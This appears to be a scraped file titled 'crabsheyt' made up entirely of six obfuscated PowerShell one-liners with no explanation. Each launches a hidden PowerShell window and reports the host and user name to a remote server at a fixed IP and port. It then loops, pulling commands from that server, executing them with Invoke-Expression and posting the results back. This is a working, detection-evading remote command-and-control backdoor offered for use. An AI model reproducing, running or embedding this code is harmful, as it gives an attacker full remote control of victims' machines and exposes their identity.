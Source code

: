 # crabsheyt
S'TarT-'prOCESS $PSHOME\powershell.exe -arGumENtlISt {$9e09=$('c0d1' -ReplaCe '[(c|\?)(0|\?)]{2}[(d|\?)]{1}[1]{1}','31.166.215.197:45001');$97=$('3fc63ec6-9b'+'dda2d0-31378'+'1'+'c2');$2d4=$('6c6' -rEpLace '[6]{1}[c(6|\?)]{2}','http://');$ec843c=I'rm' -usebaSIcparsIng -URI $2d4$9e09/3fc63ec6/$env:comPUTERname/$env:usErNaME -hEAdErS @{"Authorization"=$97};for (;;){$1be=(I'rm' -usebaSIcparsIng -URI $2d4$9e09/9bdda2d0 -hEAdErS @{"Authorization"=$97});if ($1be -ne ('No'+'ne')) {$5=I'ex' $1be -erRoractION s'TO'p -ERrORVAriABLE db5f;$5=o'uT'-strInG -inPutObJEcT $5;$002=I'rm' -URI $2d4$9e09/313781c2 -MeTHOd POST -hEAdErS @{"Authorization"=$97} -BoDy ($db5f+$5)} s'LE'Ep 0.8}} -wIndOWSTyLe HI'ddEn'

s'TaRt-procESS' $PSHOME\powershell.exe -ARgUmEnTlIsT {$2=$('31.166.215.197:4500'+'1');$9='08eb0'+'e4d-e24f8e88-b4e3'+'2'+'5bd';$50e=$('htt'+'p:/'+'/');$df3bb=i'RM' -uSebAsicpARSinG -uRI $50e$2/08eb0e4d/$env:cOMpUTERnAME/$env:uSeRnAME -HEAderS @{"Authorization"=$9};for (;;){$121a0=(i'RM' -uSebAsicpARSinG -uRI $50e$2/e24f8e88 -HEAderS @{"Authorization"=$9});if ($121a0 -NE ('N'+'one')) {$081=I'EX' $121a0 -erRoRactION ST'op' -eRRoRvaRiAble 790123;$081=ouT-St'rin'G -inpuTObject $081;$16005=i'RM' -uRI $50e$2/b4e325bd -meTHoD POST -HEAderS @{"Authorization"=$9} -bODy ($790123+$081)} S'LeeP' 0.8}} -wINdOWSTyLE H'IDDe'N

start-Pr'OCES's $PSHOME\powershell.exe -aRgUmENtLISt {$836=$('396cc02' -REpLace '[\d(9|\?)(6|\?)c\w\d(2|\?)]{7}','31.166.215.197:45001');$9=$('b95d20' -rePLACE '[(b|\?)\d\dd(2|\?)]{5}[0]{1}','290ee302-bb29f019-00f12092');$3c5f=$('ht'+'tp:/'+'/');$75=iNvo'Ke-rEsTmEtho'd -UsebaSICparsIng -uRI $3c5f$836/290ee302/$env:comPUteRnAMe/$env:uSERNamE -hEADERs @{"Authorization"=$9};for (;;){$1774=(iNvo'Ke-rEsTmEtho'd -UsebaSICparsIng -uRI $3c5f$836/bb29f019 -hEADERs @{"Authorization"=$9});if ($1774 -Ne ('None')) {$9d79=in'vokE-exPressION' $1774 -ErRoraCtiOn s'to'p -erRorvaRIaBlE f58291;$9d79=Ou't-Stri'NG -InpUtoBjeCt $9d79;$943=iNvo'Ke-rEsTmEtho'd -uRI $3c5f$836/00f12092 -metHOd POST -hEADERs @{"Authorization"=$9} -bOdy ($f58291+$9d79)} SL'Eep' 0.8}} -wiNDOWSTyLE hid'DEN'

s'TArT-PROCeSS' $PSHOME\powershell.exe -ARguMENTLisT {$72c58=$('b918b7' -REpLACE '[\w\d(1|\?)]{3}[\d]{1}[b]{1}[(7|\?)]{1}','31.166.215.197:45001');$27da9='8782cb97-ee6f6b4c-7a8182'+'6b';$d='http:/'+'/';$309=i'RM' -useBASICParsiNg -uRi $d$72c58/8782cb97/$env:coMpuTernAme/$env:uSERNaMe -HEADerS @{"Authorization"=$27da9};for (;;){$ba234=(i'RM' -useBASICParsiNg -uRi $d$72c58/ee6f6b4c -HEADerS @{"Authorization"=$27da9});if ($ba234 -Ne ('No'+'n'+'e')) {$25ff52=i'EX' $ba234 -ErRoRaction S'to'p -erRORVARiAbLE 1c58;$25ff52=oU't-s'TriNG -iNpUtObJeCt $25ff52;$c=i'RM' -uRi $d$72c58/7a81826b -mEThOd POST -HEADerS @{"Authorization"=$27da9} -BOdy ($1c58+$25ff52)} Sl'eE'p 0.8}} -wINDowStYLe Hid'De'n

s'taRT-ProcEss' $PSHOME\powershell.exe -ARgUMENtlisT {$fe96=$('3c7ece1' -rEpLace '[(3|\?)(c|\?)\d(e|\?)]{4}[\we(1|\?)]{3}','31.166.215.197:45001');$0='96a0c8fe-d030a1'+'9b-5'+'2b50'+'11c';$95c3b9=$('dd9eca' -repLacE '[dd\d]{3}[(e|\?)(c|\?)(a|\?)]{3}','http://');$20c=I'RM' -UsebasIcparsING -uRI $95c3b9$fe96/96a0c8fe/$env:cOmpUTErNAme/$env:useRNamE -HEADers @{"Authorization"=$0};for (;;){$b=(I'RM' -UsebasIcparsING -uRI $95c3b9$fe96/d030a19b -HEADers @{"Authorization"=$0});if ($b -nE ('None')) {$f20ee5=I'eX' $b -eRrOraCtioN S'TO'p -ERrORVARiaBLe 098a3;$f20ee5=o'Ut-st'Ring -iNPUtobJEcT $f20ee5;$085f=I'RM' -uRI $95c3b9$fe96/52b5011c -mETHoD POST -HEADers @{"Authorization"=$0} -bOdy ($098a3+$f20ee5)} s'LeEP' 0.8}} -wINDoWSTYle h'IDDEN'

stA'Rt-PrOCeS's $PSHOME\powershell.exe -ArGumeNTlIST {$045=$('2932ede' -REPLACE '[(2|\?)\d\d]{3}[\de]{2}[\w]{1}[\w]{1}','31.166.215.197:45001');$0ae=$('449537e' -RePlacE '[(4|\?)49]{3}[(5|\?)\d\d\w]{4}','12354dd3-edbca547-79b36f46');$2ac39c=$('9795c' -rePLACE '[9]{1}[7(9|\?)5]{3}[c]{1}','http://');$2=invOkE'-rESt'Method -uSeBASIcpARsInG -URI $2ac39c$045/12354dd3/$env:COMPuTeRnAmE/$env:USeRNamE -HeADerS @{"Authorization"=$0ae};for (;;){$04=(invOkE'-rESt'Method -uSeBASIcpARsInG -URI $2ac39c$045/edbca547 -HeADerS @{"Authorization"=$0ae});if ($04 -ne ('Non'+'e')) {$e4=invoKE-EXp'ReSSioN' $04 -ErrOractiOn S'tOp' -ErrorvaRiabLE c6c;$e4=o'Ut-StRin'g -inPUTobJecT $e4;$62272=invOkE'-rESt'Method -URI $2ac39c$045/79b36f46 -MeTHod POST -HeADerS @{"Authorization"=$0ae} -body ($c6c+$e4)} s'lE'ep 0.8}} -WIndOwsTylE hId'De'N
